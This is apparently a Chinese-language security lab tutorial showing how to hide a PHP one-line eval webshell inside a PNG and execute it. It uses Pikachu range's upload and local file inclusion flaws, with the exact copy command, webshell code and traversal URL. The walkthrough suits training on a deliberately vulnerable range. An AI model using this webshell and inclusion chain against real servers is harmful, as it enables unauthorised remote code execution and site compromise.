







图片马

图片马 ：就是在图片中隐藏一句话木马。

注意:

单纯的图片马并不能直接和蚁剑连接

因为该文件依然是以image格式进行解析

只有利用文件包含漏洞，才能成功利用该木马

所谓文件包含漏洞，是指在代码中引入其他文件作为php文件执行时，未对文件进行严格过滤，导致用户指定 任意文件，都作为php文件解析执行。

准备好一个png图片和一个有恶意代码的php文件，在cmd中执行拼接指令

<?php @eval($_POST['pass']); ?>

copy /b test.png + webshell.php test1.png

生成了一个带有木马的图片test1.png

打开pikachu靶场unsafe fileupload——getimagesize，打开bp，选择带有木马的图片test1.png进行上传

uploads/2026/07/08/1438796a4e061c08945115172329.png

上传到靶场之后，因为是图片格式无法进行直接解析，需要利用文件包含漏洞

打开pikachu靶场file inclusion(local)，随便选择一个球星然后提交查询

发现url有filename=file1.php，这时我们修改成一个比较大的数字，比如file9999.php，那这个服务器肯定是没有那么大数字的file的，就会包含不存在的文件导致报错

从报错信息可看出文件包含函数用的是include(), 被包含的文件路径为 pikachu\vul\fileinclude\include\file9999.php 由于文件处于 /include 目录下, 故不能使用绝对路径, 需转换成相对路径, 最终包含木马图片的payload如下：

http://192.168.214.142/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2026/07/08/1438796a4e061c08945115172329.png&submit=Submit+Query

使用蚁剑进行连接

